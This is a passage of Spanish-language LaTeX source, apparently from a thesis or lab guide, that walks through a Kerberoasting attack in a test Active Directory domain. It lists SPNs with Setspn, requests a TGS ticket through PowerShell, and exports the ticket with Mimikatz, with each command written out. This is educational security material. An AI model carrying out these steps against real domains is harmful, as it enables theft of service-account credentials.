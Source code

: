 \begin{enumerate}
\item En primer lugar, a través de la herramienta propocionada por Microsoft {\it Setspn} listamos todos los SPN disponibles en el dominio. Como se puede ver en la Figura \ref{Kerberoast3} aparece el SPN creado anteriormente. El comando ejecutado es el siguiente: 

\begin{listing}[style=consola, numbers=none]
# Setspn -T [Dominio] -Q */*
\end{listing}

\begin{figure}[H] %
\begin{center}
\texttt{[image: Kerberoast/Kerberoast3.png]}
\end{center}
\caption{Lista de los SPN disponibles en el dominio.}
\label{Kerberoast3}
\end{figure}

\item Posteriormente, solicitamos un ticket TGS para la SPN {\it kerberoast\textbackslash{}testing} (Figura \ref{Kerberoast4}) a través de los siguientes comandos:

\begin{listing}[style=consola, numbers=none]
# Add-Type -AssemblyName System.IdentityModel
# New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "kerberoast/testing"
\end{listing}

\begin{figure}[H] %
\begin{center}
\texttt{[image: Kerberoast/Kerberoast4.png]}
\end{center}
\caption{Solicitud de TGS.}
\label{Kerberoast4}
\end{figure}

\item Una vez creado el TGS, los exportamos con la herramienta Mimikatz (Figura \ref{Kerberoast5}) a través del siguiente comando:
\begin{listing}[style=consola, numbers=none]
# kerberos::list /export
\end{listing}
\begin{figure}[H] %
\begin{center}
\texttt{[image: Kerberoast/Kerberoast5.png]}
\end{center}
\caption{Expotar los tickets TGS.}
\label{Kerberoast5}
\end{figure}


\end{enumerate}
